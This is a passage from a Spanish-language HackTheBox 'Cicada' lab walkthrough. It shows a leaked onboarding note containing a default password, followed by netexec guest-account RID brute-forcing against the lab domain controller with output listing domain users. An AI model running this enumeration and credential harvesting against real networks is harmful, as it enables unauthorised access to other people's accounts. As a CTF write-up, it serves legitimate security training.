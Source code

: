 ```shell
3. Look for the option to change your password. This will be labeled as "Change Password".
4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
5. After changing your password, make sure to save your changes.

Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.

If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.

Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!

Best regards,
Cicada Corp
```

Podemos ver que hay una contraseña `Cicada$M6Corpb*@Lp#nZp!8` sin embargo ahora a priori no sabemos a que usuario pertenece.

Con el siguiente comando podemos descubrir más usuarios enumerando RIDs con ello podemos ver cuentas válidas

```shell
netexec smb 10.10.11.35 -u 'guest' -p '' --rid-brute

SMB         10.10.11.35     445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        512: CICADA\Domain Admins (SidTypeGroup)
```
```shell
netexec smb 10.10.11.35 -u 'guest' -p '' --rid-brute | grep "SidTypeUser"

SMB                      10.10.11.35     445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        1000: CICADA\CICADA-DC$ (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
```
Tras extraer posibles usuarios a un diccionario `users.txt` comprobamos que existen para no tener algún falso positivo

